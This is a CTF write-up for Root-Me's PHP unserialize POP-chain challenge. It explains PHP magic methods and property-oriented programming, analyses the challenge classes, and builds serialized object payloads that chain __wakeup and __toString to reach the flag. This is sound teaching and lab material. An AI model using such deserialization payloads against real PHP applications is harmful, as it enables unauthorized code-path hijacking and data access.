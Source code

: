 ```yaml
---
title: "Exploiting PHP Unserialize POP Chains | Rootme"
date: 2024-12-20
categories: [CHALLENGES, PHP - Unserialize Pop Chain]
tags: [CHALLENGES, CTF] 
---
```

## Introduction
[PHP - Unserialize Pop Chain](https://www.root-me.org/en/Challenges/Web-Server/PHP-Unserialize-Pop-Chain)  is a very nice web challenge designed to understand the concept of **magic method chaining** in the deserialization process.

As we know that [serialization](https://hazelcast.com/foundations/distributed-computing/serialization/) is the process of converting a data object or a combination of code into a series of bytes, preserving the object's state in an easily transmittable form. Deserialization is the reverse operation of serialization.

## What is the Magic Methods?
[Magic methods](https://www.php.net/manual/en/language.oop5.magic.php) are special methods which override PHP's default's action when certain actions are performed on an object. All methods names starting with __ are reserved by PHP.

One of the most popular magic methods is `__construct()` which is called when the object created. 

![IMG1](https://github.com/user-attachments/assets/5b91a228-bcdd-4b05-b29a-095970437807)

## What is POP chain? 
In normal scenario of exploiting insecure deserialization vulnerability, an attacker controls a serialized object that is passed into `unserialize()`. This will then allow her the opportunity to hijack the execution flow of the application, by controlling the values passed into magic methods.

The problem is: What if the declared magic methods does not contain any usefull code to perform my attack?
Now the exploitation of unsafe deserialization is useless, right?

Unfortunately, if the magic method themselves are not exploitable, an attacker could still control the execution flow using something called POP chains.

POP stands for `Property Oriented Programming` which means that the attacker can control all of the properties of the deserialized object. POP chains work by chaining code "gadgets" together to achieve the attacker’s ultimate goal. These "gadgets" are code snippets borrowed from the codebase that the attacker uses to further her goal.

## Challenge source code analysis

![IMG2](https://github.com/user-attachments/assets/64700220-7dbe-4aa9-a1fc-05d71edc0787)

The script defines two PHP classes which are `GetMessage` and `WakyWaky`.

1) GetMessage class:
  - Constructor `__construct`: Initializes the object with the `receive` parameter. If the value is "HelloBooooooy", the  script terminates with a message.
  - `__toString` Method: Returns the value of the receive property as a string.
  - Destructor `__destruct`: Validates the receive property. If it’s not "HelloBooooooy", the script terminates. Otherwise, if `$getflag` is true, it includes a `flag.php` file and reveals the flag.

2) WakyWaky class:
  - `__wakeup` Method: Executes when the object is unserialized, echoing the msg property.
  - `__toString` Method: Sets `$getflag` to true and creates a new GetMessage object, returning its receive value.

3) If a data parameter is provided via a POST request, it’s unserialized.

## Spotting the code 
According to [php documentation](https://www.php.net/manual/en/language.oop5.magic.php) this magic methods works in php as follows:
- `__construct()`: Called when an object is created.
- `__destruct()`: Called when an object is deleted.
- `__wakeup()`: Called when an object is unserialized.
- `__toString()`: Called when an object is converted to a string.

Our goal is to read the flag and to make this set the value of the getflag to true. We cannot directly create a serialized object from the `GetMessage` class because the constructor takes a parameter and checks if its value is equal to "HelloBooooooy". If it is, the script will terminate immediately, and the `__destruct()` method will not be called. On the other hand, if we change the value from "HelloBooooooy" to "Hello", the constructor will save it in the `receive` property, and the `__destruct()` method will be called. However, when it checks the value, the script will terminate again using the `die()` function. Both approaches will fail to read the flag.

I generate this script to create a serialized data for testing: 
```php
<?php

class GetMessage {
    function __construct($receive) {
        if ($receive === "HelloBooooooy") {
            die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
        } else {
            $this->receive = $receive;
        }
    }

    function __toString() {
        return $this->receive;
    }

    function __destruct() {
        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't seem to be the friend I was waiting for..<br>");
        } else {
            if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG."<br>";
            }
        }
    }
}
$obj = new GetMessage("Hello");
// O:10:"GetMessage":1:{s:7:"receive";s:5:"Hello";}
echo serialize($obj);
```
Trying: `O:10:"GetMessage":1:{s:7:"receive";s:5:"Hello";}`
![IMG3](https://github.com/user-attachments/assets/44fa326a-c5f9-487a-bfd4-a6a12b764318)

Now, our entry point is the WakyWaky class to set the value of getflag to true. If I create a serialized object from this class and send it to the web app, it will unserialize the object and automatically call the `__wakeup()` method, which echoes the msg property of the object.

What if we could now modify the `msg` property to control the execution flow of the code and call the `__toString()` method?

## Chaining of methods and Exploitation
We can create an object using the `WakyWaky` class, where the value of the `msg` property is an object of the same class. The only way to make the code call the `__toString()` method is to make the msg property of this object another object from the same class. This is because the `WakyWaky` class echoes the `msg`, and `__toString()` is called when the object is treated as a string.

Working of `__toString()`:

![IMG4](https://github.com/user-attachments/assets/cd4488d6-1a4e-49cd-8b22-cd5b37887e72)

Let's try to create the payload: 

```php
<?php 

class WakyWaky {
    public $msg;

    public function __construct($msg) {
        $this->msg = $msg;
    }
}

$Innerobj = new WakyWaky("Hello");  
$OuterObj = new WakyWaky($Innerobj);

// O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";s:5:"Hello";}}
echo serialize($OuterObj); 
```
![IMG5](https://github.com/user-attachments/assets/11ebffe1-3aa9-4feb-9a9e-06f0d0d894d8)

